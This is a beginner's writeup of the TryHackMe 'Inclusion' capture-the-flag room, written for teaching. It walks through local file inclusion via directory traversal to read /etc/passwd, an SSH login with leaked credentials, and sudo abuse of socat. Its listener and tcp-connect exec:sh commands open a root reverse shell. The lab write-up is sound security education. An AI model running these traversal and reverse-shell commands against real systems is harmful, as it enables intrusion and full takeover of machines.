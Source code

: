 ```yaml
---
title: Inclusion Writeup
date: 2020-03-31
description: A beginner-friendly writeup on TryHackMe's Inclusion challenge. 
tags:
  - Writeup
  - TryHackMe
  - Security
banner: ./cover.jpg
---
```


## Introduction

This challenge on [TryHackme.com](http://tryhackme.com) focuses on Local File Inclusion attack. Local File Inclusion is when the attacker tricks the web application into exposing or running files on the webserver. 

Room Link: [https://tryhackme.com/room/inclusion](https://tryhackme.com/room/inclusion)

## Resources used

- Nmap
- GTFObins
- Kali VM

## Writeup

### Enumeration

The first and foremost step in any attack is an enumeration. So, gather data about the services running using a **Nmap** scan. 

![Inclusion/1.png](1.png)

From the scan results, we can derive that 2 services are running:

- SSH
- HTTP

### Web Recon

Let's poke at the Webserver and see it's contents.

![Inclusion/2.png](2.png)

It seems to be a blog. Explore it and see if anything is interesting to focus on. 

### Local File Inclusion

The pages takes in a parameter to the server to display the webpage. Tampering this may disclose files in the webserver causing a LFI attack if the application does not whitelist which files can be included.

![Inclusion/3.png](3.png)

Common files to look for : 

- /etc/passwd - View usernames of all users on a system
- /etc/shadow - View hashed passwords of all users on the system
- /etc/hosts - View other devices the webserver is communicating with.

and so much more if you're clever. 

**You can combine this with Directory traversal to access the file you want.** 

    >> website.com/article?name=../../../etc/passwd 

The passwd file has been exposed. In this, we can observe the users present in the system. 

![Inclusion/4.png](4.png)

There is a user named *falconfeast.* The interesting part is that there is a comment which possibly seems like a username and password. Keep in mind, this is a very rare occasion of having the password in the comment, which I believe is deliberately has been done by the creator of the room. After all this room is to understand the basics of LFI. 

### Entering the Web Server

Let's assess the situation.

- There are a username and password available
- There is an SSH present in the webserver

So, the next step is to try logging in to the server using SSH. 

    >> ssh falconfeast@rootpassword 

![Inclusion/5.png](5.png)

After logging in the directory has a user.txt file that contains the ***user flag!*** 

Observing the placement of the user.txt, it would be safe to assume the root flag would be in /root folder.

![Inclusion/6.png](6.png)

Unfortunately, neither the privilege cannot be escalated nor the /root folder can be accessed directly. But, have a look at the command allowed for *falconfeast* using :

    >> sudo -l

![Inclusion/7.png](7.png)

It mentions that the user is allowed to run /usr/bin/socat as root with no password required. 

> Socat is a command-line based utility that establishes two bidirectional byte streams and transfers data between them.

To learn how this can be abused, check [GTFOBins](https://gtfobins.github.io/). 

> GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

From that, it is confirmed that a [reverse shell](https://gtfobins.github.io/gtfobins/socat/) is possible. 

### Abusing Socat

On your machine run:

    >> socat file:`tty`,raw,echo=0 tcp-listen:12345

And on the LFI machine, run : 

    >> RHOST= <your ip address> 
    >> RPORT=12345
    >> socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane

![Inclusion/8.png](8.png)

Once you run the command on the LFI machine, the reverse shell must have been successfully created and you can access the machine as *root*. 

To confirm it, run:

    >> id  #this would print the real and effective user and group IDs.

Then move into /root folder and list out the items in it. 

![Inclusion/9.png](9.png)

The root.txt is present here with the ***root flag!** (Now you can pat yourself :p )*

---

### The Unintentional Way

There is another easy way to read the user and root flag, but I don't think it was the intended way but I would still love to share it.
The flags can be accessed directly through the URL if you are familiar with the location of the flags. 
![User Flag](10extra.png)

![Root Flag](11extra.png)


## Final Thoughts

This room is not only a good experience for anyone looking to learn about LFI but also introduces the concept of privilege escalation using Unix Binaries and reverse shells. 
I will be trying other rooms at TryHackMe and posting my writeups too. So watch out this space for more awesome content.

---

If you like my content, let me know on Twitter: [https://twitter.com/swsjona](https://twitter.com/swsjona)

**Further Reading** 

[What is Local File Inclusion (LFI)? | Acunetix](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)

[Local File Inclusion](https://blog.tryhackme.com/lfi/)